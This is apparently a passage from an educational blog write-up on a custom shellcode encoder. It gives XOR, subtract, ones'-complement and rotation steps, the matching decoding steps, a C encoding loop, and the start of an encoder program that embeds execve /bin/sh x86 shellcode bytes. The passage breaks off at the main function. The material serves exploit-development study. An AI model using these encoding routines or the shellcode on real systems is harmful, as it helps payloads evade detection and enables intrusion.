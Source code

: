 1. provide a bitwise exclusive OR operation **(xor)** to every byte in sequence with value **0x2c**
2. **subtract** every byte with value **0x2**
3. apply ones' complement&nbsp; arithmetic operation
4. perform a **4 bits right rotation (ror)** to every byte in shellcode

The above encoding pattern implemented using the code snippet below

```c
// apply the encoding scheme 
for (i=0; i < strlen(shellcode2); i++) 
{ 
// XOR every byte with 0x2c 
shellcode2[i] = shellcode2[i] ^ XORVAL; 
// decrease every byte by 2 
shellcode2[i] = shellcode2[i] - DEC; 
// ones' complement
shellcode2[i] = ~shellcode2[i];  
// perform the ror method 
shellcode2[i] = (shellcode2[i] << rot) | (shellcode2[i] >> sizeof(shellcode2[i])*(8-rot));
}
```

The following diagram depicts the result from the custom encoding process

<img style="display: block;margin-left: auto;margin-right: auto;border: 2px solid black;" src="{{ site.baseurl }}/assets/images/2019/12/encoded-2.png" alt=""  />

<p style="text-align:justify;">
Later on, the decoding process will take place, providing a reverse operation to the encoded bytes. The following steps used to decode the encoded payload
</p>

1. perform a **4 bits left rotation** **(rol)** to every byte in shellcode
2. apply ones' complement&nbsp; arithmetic operation
3. **add** value **0x2** to every byte in sequence
4. provide a bitwise exclusive OR operation **(xor)** to every byte with value **0x2c**

The following diagram depicts the result from the custom decoding process

<img style="display: block;margin-left: auto;margin-right: auto;border: 2px solid black;" src="{{ site.baseurl }}/assets/images/2019/12/decoding.png" alt=""  />

Afterwards, when the decoding process finishes, it is time to remove the extra bytes from every odd number location, shifting the bytes left.

<img style="display: block;margin-left: auto;margin-right: auto;border: 2px solid black;" src="{{ site.baseurl }}/assets/images/2019/12/removing.png" alt=""  />


### The Custom Encoder

For the encoding phase, the payload used to encode is the execve which executes the /bin/sh command. The custom encoder has been implemented as shown below

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define DEC 0x2 // the value that will be used to subtract every byte
#define XORVAL 0x2c // the value that will be used to xor with every byte

// execve stack shellcode /bin/sh
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main()
```
